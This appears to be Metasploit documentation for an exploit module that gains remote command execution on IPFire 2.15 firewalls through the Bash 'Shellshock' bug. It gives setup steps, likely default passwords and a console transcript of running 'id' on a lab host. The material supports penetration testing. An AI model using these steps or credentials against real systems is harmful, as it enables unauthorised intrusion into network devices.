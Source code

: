 The following is the recommended format for module documentation.
But feel free to add more content/sections to this.


## Vulnerable Application

  Official Source: [ipfire](http://downloads.ipfire.org/releases/ipfire-2.x/2.15-core82/ipfire-2.15.i586-full-core82.iso)
  Archived Copy: [github](https://github.com/h00die/MSF-Testing-Scripts)

## Verification Steps

  Example steps in this format:

  1. Install the firewall
  2. Start msfconsole
  3. Do: ```use exploit/linux/http/ipfire_bashbug_exec```
  4. Do: ```set rhost 10.10.10.10```
  5. Do: ```set CMD ls```
  6. Do: ```run```
  7. You should see the output of the command that was run.

## Options

  **PASSWORD**

  Password is set at install.  May be blank, 'admin', or 'ipfire'.
  
  **CMD**
  
  This is the command to run on the system.

## Scenarios

  Example of running the ID command
  ```
    msf > use exploit/linux/http/ipfire_bashbug_exec 
    msf exploit(ipfire_bashbug_exec) > set PASSWORD admin
    PASSWORD => admin
    msf exploit(ipfire_bashbug_exec) > set rhost 192.168.2.202
    rhost => 192.168.2.202
    msf exploit(ipfire_bashbug_exec) > set CMD id
    CMD => id
    msf exploit(ipfire_bashbug_exec) > exploit
    
    [+] uid=99(nobody) gid=99(nobody) groups=16(dialout),23(squid),99(nobody)
    [*] Exploit completed, but no session was created.
  ```
